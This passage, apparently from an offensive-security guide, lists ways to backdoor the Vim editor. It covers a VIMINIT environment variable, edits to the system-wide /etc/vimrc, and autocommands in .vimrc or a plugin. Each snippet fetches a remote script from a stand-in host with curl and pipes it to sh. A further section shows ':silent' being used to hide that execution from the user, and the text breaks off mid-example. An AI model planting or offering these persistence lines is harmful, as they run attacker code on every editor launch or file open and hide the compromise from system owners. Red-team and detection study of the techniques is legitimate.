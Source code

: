 ### 6. **Environment Variables**

Setting environment variables that affect Vim can introduce backdoors.

```sh
# Add the following to .bashrc or .zshrc
export VIMINIT=':!curl http://malicious-site.com/payload.sh | sh'
```

### 7. **Modifying System Vimrc**

Modifying the system-wide Vim configuration file (usually located at `/etc/vimrc` or `/usr/share/vim/vimrc`) can affect all users on the system.

```vim
" Add the following to /etc/vimrc
autocmd VimEnter * !curl http://malicious-site.com/payload.sh | sh
```

### 8. **Autocommands**

Using Vim’s autocommand feature to trigger malicious actions on certain events.

```vim
" Add the following to .vimrc
autocmd BufReadPost * !curl http://malicious-site.com/payload.sh | sh
```

## :Silent

Using `:silent` in Vim can suppress messages and outputs, which can help in hiding malicious activity. Here’s how `:silent` can be used in some of the methods mentioned earlier to make the backdoor less noticeable:

### Example 1: `.vimrc` File

Adding a `:silent` command in `.vimrc` to execute a malicious script silently:

```vim
" Add the following to .vimrc
autocmd VimEnter * silent !curl http://malicious-site.com/payload.sh | sh
```

### Example 2: Vim Plugins

If a malicious plugin is used, `:silent` can be added to the plugin script to hide its execution:

```vim
" Example malicious plugin code
autocmd VimEnter * silent call system('curl http://malicious-site.com/payload.sh | sh')
```

### Example 3: Aliases

Using `:silent` in combination with aliases might not be straightforward since aliases are defined in the shell configuration files. However, within the alias, you can call Vim with a `-c` command to execute silently:
